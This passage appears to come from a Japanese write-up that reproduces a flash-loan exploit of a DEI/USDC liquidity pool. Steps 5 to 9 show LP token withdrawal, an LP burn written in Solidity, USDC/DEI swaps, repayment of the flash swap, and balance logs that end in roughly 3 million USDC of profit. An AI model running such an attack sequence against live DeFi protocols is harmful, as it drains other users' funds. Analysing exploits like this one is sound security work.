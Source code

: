 ##### 5 ) LPトークンの引き出し

depositされているLPトークンを引き出します。

```
    [+] (5) deposit LP deposit tokens to earn LP tokens
    [+]      my LP deposit token balance: 0
    [+]      my LP token balance: 5230026958164438186
```

##### 6 ) LPトークンのburn

清算したことで得られたLPトークンをburnし、USDCとDEIを得ます。

https://docs.uniswap.org/protocol/V2/concepts/protocol-overview/how-uniswap-works

```solidity
// prepare the LP burning
ERC20(address(sAMMUsdcDei)).transfer(address(sAMMUsdcDei), sAMMUsdcDei.balanceOf(me));

// burn the LP
sAMMUsdcDei.burn(me);
```

`my LP token balance`が0になり、`my USDC balance` / `my DEI balance`が増加していることが分かります。

```
    [+] (6) remove liquidity
    [+]      my USDC balance: 5218173124837
    [+]      my DEI balance: 7617204163068582172512381
    [+]      my LP token balance: 0
```

##### 7 ) USDCをDEIへスワップ

フラッシュローンの返却のため、USDCをDEIへスワップします。

ログにより、`my USDC balance`が0に、`my DEI balance`が増えていることが確認できます。

```
    [+] (7) swap USDC to DEI from sAMM pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 12787419360961504871925327
```

##### 8 ) ステップ1でフラッシュスワップしたものを返却

これで、借りたDEI以上の資金を用意できたため、フラッシュスワップが正常に終了します。

```
    [+] (8) exit the flash swap from spirit pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 3018770729245407709894965
```

##### 9 ) DEIをUSDCへスワップ

最終的に、3064570164495ドルが得られます。

```
    [+] (9) swap DEI to USDC from sAMM pool
    [+]      my USDC balance: 3064570164495
    [+]      my DEI balance: 0
```
